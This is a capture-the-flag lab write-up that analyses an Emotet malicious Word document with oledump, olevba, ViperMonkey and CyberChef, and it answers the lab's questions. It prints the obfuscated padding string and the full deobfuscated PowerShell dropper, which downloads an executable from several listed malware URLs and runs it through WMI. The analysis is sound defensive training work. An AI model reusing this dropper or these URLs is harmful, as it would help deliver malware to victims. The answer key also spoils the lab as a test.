






https://cyberdefenders.org/labs/51
Contents
- Tools Used
- 1. Multiple streams contain macros in this document. Provide the number of highest one.
- 2. What event is used to begin the execution of the macros?
- 3. What malware family was this maldoc attempting to drop?
- 4. What stream is responsible for the storage of the base64-encoded string?
- 5. This document contains a user-form. Provide the name?
- 6. This document contains an obfuscated base64 encoded string; what value is used to pad (or obfuscate) this string?
- 7. What is the purpose of the base64 encoded string?
- 8. What WMI class is used to create the process to launch the trojan?
- 9. Multiple domains were contacted to download a trojan. Provide first FQDN as per the provided hint.
Tools Used
- oledump
- olevba
- vmonkey (ViperMonkey)
- LibreOffice
- CyberChef
- sha256sum
1. Multiple streams contain macros in this document. Provide the number of highest one.
We can use oledump to dump all the streams:
$ oledump.py sample.bin
1: 114 '\x01CompObj'
2: 4096 '\x05DocumentSummaryInformation'
3: 4096 '\x05SummaryInformation'
4: 7119 '1Table'
5: 101483 'Data'
6: 581 'Macros/PROJECT'
7: 119 'Macros/PROJECTwm'
8: 12997 'Macros/VBA/_VBA_PROJECT'
9: 2112 'Macros/VBA/__SRP_0'
10: 190 'Macros/VBA/__SRP_1'
11: 532 'Macros/VBA/__SRP_2'
12: 156 'Macros/VBA/__SRP_3'
13: M 1367 'Macros/VBA/diakzouxchouz'
14: 908 'Macros/VBA/dir'
15: M 5705 'Macros/VBA/govwiahtoozfaid'
16: m 1187 'Macros/VBA/roubhaol'
17: 97 'Macros/roubhaol/\x01CompObj'
18: 292 'Macros/roubhaol/\x03VBFrame'
19: 510 'Macros/roubhaol/f'
20: 112 'Macros/roubhaol/i05/\x01CompObj'
21: 44 'Macros/roubhaol/i05/f'
22: 0 'Macros/roubhaol/i05/o'
23: 112 'Macros/roubhaol/i07/\x01CompObj'
24: 44 'Macros/roubhaol/i07/f'
25: 0 'Macros/roubhaol/i07/o'
26: 115 'Macros/roubhaol/i09/\x01CompObj'
27: 176 'Macros/roubhaol/i09/f'
28: 110 'Macros/roubhaol/i09/i11/\x01CompObj'
29: 40 'Macros/roubhaol/i09/i11/f'
30: 0 'Macros/roubhaol/i09/i11/o'
31: 110 'Macros/roubhaol/i09/i12/\x01CompObj'
32: 40 'Macros/roubhaol/i09/i12/f'
33: 0 'Macros/roubhaol/i09/i12/o'
34: 15164 'Macros/roubhaol/i09/o'
35: 48 'Macros/roubhaol/i09/x'
36: 444 'Macros/roubhaol/o'
37: 4096 'WordDocument'
The highest VBA macro is number 16.
2. What event is used to begin the execution of the macros?
olevba is a good tool for getting more information about macros. I’ve cropped the output.
$ olevba sample.bin
[..]
+----------+--------------------+---------------------------------------------+
|Type |Keyword |Description |
+----------+--------------------+---------------------------------------------+
|AutoExec |Document_open |Runs when the Word or Publisher document is |
| | |opened |
[..]
Alternatively, we can open the malicious document and view (edit) the macro. I did so using LibreOffice Writer.

3. What malware family was this maldoc attempting to drop?
One easy way is to compare the filehash to online databases such as URLhaus. Otherwise I’d have to reverse-engineer the script, decipher the functionality, and cross-reference that with known malware.
$ sha256sum sample.bin
d50d98dcc8b7043cb5c38c3de36a2ad62b293704e3cf23b0cd7450174df53fee sample.bin

Looks like we’re dealing with Emotet.
4. What stream is responsible for the storage of the base64-encoded string?
We have the list of streams in question 1, but which one is it? Going back to the output we got from olevba, and looking through the streams, we can see there is one very long string (note I’ve cropped the middle out):
-------------------------------------------------------------------------------
VBA FORM STRING IN 'sample.bin' - OLE stream: 'Macros/roubhaol/i09/o'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
�p2342772g3&*gs7712ffvs626fqo2342772g3&*gs7712ffvs626fqw2342772g3&*gs7712ffvs626fqe2342772g3&*gs7712ffvs626fqr2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fqh2342772g3&*gs7712ffvs626fqeL2342772g3&*gs7712ffvs626fqL2342772g3&*gs7712ffvs626fq 2342772g3&*gs7712ffvs626fq-2342772g3&*gs7712ffvs626fqe[..]2342772g3&*gs7712ffvs626fqAHUAbA2342772g3&*gs7712ffvs626fqBmAGkA2342772g3&*gs7712ffvs626fqZQByAD2342772g3&*gs7712ffvs626fq0AJwBm2342772g3&*gs7712ffvs626fqAG8AcQ2342772g3&*gs7712ffvs626fqB1AGwA2342772g3&*gs7712ffvs626fqZQB2AG2342772g3&*gs7712ffvs626fqMAYQBv2342772g3&*gs7712ffvs626fqAGoAJw2342772g3&*gs7712ffvs626fqA=
-------------------------------------------------------------------------------
It ends with =, which suggests it’s base64 encoded. Checking our list of streams for Macros/roubhaol/i09/o, we find it’s number 34.
5. This document contains a user-form. Provide the name?
From the screenshot in 2, we can see the form - roubhaol.
6. This document contains an obfuscated base64 encoded string; what value is used to pad (or obfuscate) this string?
If we look carefully at the base64 string above (also use the hint from the challenge…) we can see there is a regularly-repeated string: 2342772g3&*gs7712ffvs626fq.
We can also look at the actual VBA script in LibreOffice.
There is line 43, which Splits the string based on that value:

There’s also this on line 10:
Dhaothkoebtheil = "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqw2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqm2342772g3&*gs7712ffvs626fqgm2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqt2342772g3&*gs7712ffvs626fq" + gooykadheoj + "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq:w2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq322342772g3&*gs7712ffvs626fq_2342772g3&*gs7712ffvs626fq" + roubhaol.joefwoefcheaw + "2342772g3&*gs7712ffvs626fqr2342772g3&*gs7712ffvs626fqo2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqc2342772g3&*gs7712ffvs626fqes2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fq"
Deleting the padding and we get:
haothkoebtheil = "winmgmt" + gooykadheoj + ":win32_" + roubhaol.joefwoefcheaw + "rocess"
If we ignore those variables we get winmgmt[]:win32_[]rocess, which leads us on to the next question.
7. What is the purpose of the base64 encoded string?
We can run ViperMonkey to do some automated analysis of the file:
$ vmonkey -s sample.bin -p -o vmonkey_s.txt
ViperMonkey errors out quite a bit, but I got some useful information with -s, which strips out useless VB code (the -p -o is for tee and outputting to a file). -c for IOCs didn’t give much before erroring out, same as no argument. I also used -e, which attempts to extract expressions. It also errored out.
Opening this in a graphical editor (to avoid line wrapping), we get some interesting information:

Win32_Process is a well-known WMI class, and (as we can see above) is often related to PowerShell (in this case with -e, meaning encoded command). This is our answer.
Note this is also similar to what we found in question 6 - it seems roubhaol.joefwoefcheaw = P.
8. What WMI class is used to create the process to launch the trojan?
See the previous question.
9. Multiple domains were contacted to download a trojan. Provide first FQDN as per the provided hint.
Let’s dig into that encoded PowerShell command. CyberChef will decode it:

And gives us this:
$liechrouhwuw='vuacdouvcioxhaol';[Net.ServicePointManager]::"SE`cuRiTy`PRO`ToC`ol" = 'tls12, tls11, tls';$deichbeudreir = '337';$quoadgoijveum='duuvmoezhaitgoh';$toehfethxohbaey=$env:userprofile+'\'+$deichbeudreir+'.exe';$sienteed='quainquachloaz';$reusthoas=.('n'+'ew-ob'+'ject') nEt.weBclIenT;$jacleewyiqu='https://haoqunkong.com/bn/s9w4tgcjl_f6669ugu_w4bj/*https://www.techtravel.events/informationl/8lsjhrl6nnkwgyzsudzam_h3wng_a6v5/*http://digiwebmarketing.com/wp-admin/72t0jjhmv7takwvisfnz_eejvf_h6v2ix/*http://holfve.se/images/1ckw5mj49w_2k11px_d/*http://www.cfm.nl/_backup/yfhrmh6u0heidnwruwha2t4mjz6p_yxhyu390i6_q93hkh3ddm/'."s`PliT"([char]42);$seccierdeeth='duuzyeawpuaqu';foreach($geersieb in $jacleewyiqu){try{$reusthoas."dOWN`loA`dfi`Le"($geersieb, $toehfethxohbaey);$buhxeuh='doeydeidquaijleuc';If ((.('Get-'+'Ite'+'m') $toehfethxohbaey)."l`eNGTH" -ge 24751) {([wmiclass]'win32_Process')."C`ReaTe"($toehfethxohbaey);$quoodteeh='jiafruuzlaolthoic';break;$chigchienteiqu='yoowveihniej'}}catch{}}$toizluulfier='foqulevcaoj'
It’s still a but obfuscated, but we can easily see the URLs, and some is easily deobfuscated (e.g. 'Get-'+'Ite'+'m' = 'Get-Item').
Let’s look on URLhaus for one of these URLs:
